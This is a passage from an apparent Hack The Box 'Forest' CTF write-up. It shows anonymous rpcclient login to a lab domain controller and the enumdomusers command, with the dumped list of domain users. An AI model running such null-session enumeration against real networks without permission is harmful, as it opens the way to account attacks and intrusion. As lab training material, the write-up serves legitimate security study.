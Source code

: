 # MSRPC ENUMERATION
- Let start by check anonymous
```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ rpcclient -U "" -N 10.10.10.161
rpcclient $> 
```
- From above, you can see that i was able to login as Anonymous user
- In rpcclient, there is command called enumdomusers in which it dump users if it is allowed for that user to be list users
- let check for this user that i have
```
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[a] rid:[0x2582]
rpcclient $> 
```
- As you can see from above that i can dump user from domain controllers
- let save them to file and format clearly

